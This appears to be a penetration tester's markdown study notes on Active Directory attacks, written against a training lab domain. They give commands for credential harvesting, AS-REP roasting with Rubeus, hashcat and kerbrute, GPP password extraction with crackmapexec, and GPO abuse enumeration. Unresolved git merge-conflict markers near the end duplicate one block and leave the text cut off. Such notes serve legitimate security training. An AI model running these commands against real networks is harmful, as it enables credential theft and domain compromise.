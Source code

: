 

## Exchange Weaknesses:
- Groups often have lots of privileges in Exchange, and can be utilized for privilege escalation if understood properly.

"**Exchange Windows Permissions**": Members can write to the DACL, adding themselves to **DCSync** privileges.

"**Organizational Management**": Effectively the "Domain Admins" of Exchange, can access all the mailboxes of all domain users.

**Dumping credentials from memory on a domain controller** will produce lots of cleartext credentials due to users logging in to Outlook Web Access (OWA) and the server caching their credentials.

## PrivExchange attack
-> A weakness that allows a domain user with a mailbox to get the exchange server to authenticate to any host over HTTP.


## MS14-068 (CVE‑2014‑6324)
Allows a user to force a Privilege Attribute Certificate (PAC) to authenticate to the KDC as an administrator

## Sniffing LDAP credentials
Sometimes printers will have stored credentials. Some printers have a 'test connection' functionality where we can point the connection back to our attacker machine and gather creds from the printer that way. (setup a netcat listener on port 389)

## Enumerating DNS Records:
More thorough enumeration of DNS records can give us better insight into the domain.

We can use a tool (with valid domain creds) such as `adidnsdump`
```shell
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

## What is LDAP?
Phonebook. Store user information and authentication.

Map out your organization.

LDAP -> AD
OpenLDAP -> Linux

LDAP Provides the *information* about what services a user can access, but does not actually enforce that access. (provides the data to systems that do enforce)

**Rather than having 500 servers on a big network that contain a database to authenticate individuals**, an LDAP server can be used to centralize that authentication.


## Password in Description Field
Utilize Powerview `Get-DomainUser` module to find sensitive information in the description field of AD users.
```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

## PASSWD_NOTREQD Field
If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain).
````powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
````

## Credentials in SMB Shares and SYSVOL Scripts

```powershell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

## Group Policy Preferences (GPP) Passwords

Sensitive data can be stored on the SYSVOL share
```shell

 crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2         -M gpp_autologin
# Look for exposed credentials for a machine or user that automatically logs on
```

## ASREPRoasting
-> Obtain TGTs for any account that has the `do not require Kerberos pre-authentication`

> The success of this attack depends on the account having a relatively weak password.

- **Kerberoasting** = crack service account credentials via SPN service tickets.
- **AS-REP Roasting** = crack user passwords directly by exploiting accounts without pre-authentication.

<<<<<<< HEAD
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
# Find users with Powerview who are vulnerable to ASRepRoasting

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
# Request the hash of the ASRepRoastable user
```

==Crack the hash offline with hashcat==

```shell
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```


### Kerbrute
-> Will automatically retrieve the AS-REP for any sers found that do not require Kerberos pre-authentication.
```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

### Get-NUsers.py
Can also hunt for users that are vulnerable to AS-REP attacks
```shell
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

## GPO abuse:
GPO's allow for fine grain control over permissions, but can be complex and can lead to misconfigurations that can be compromised by attackers. These attacks can be used to:
1. Add additional privileges to users
2. Add a local admin user to one or more hosts
3. Create an immediate scheduled task

```powershell
Get-DomainGPO |select displayname
# Enumerate GPO names with PowerView
```

=======
```PowerShell

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

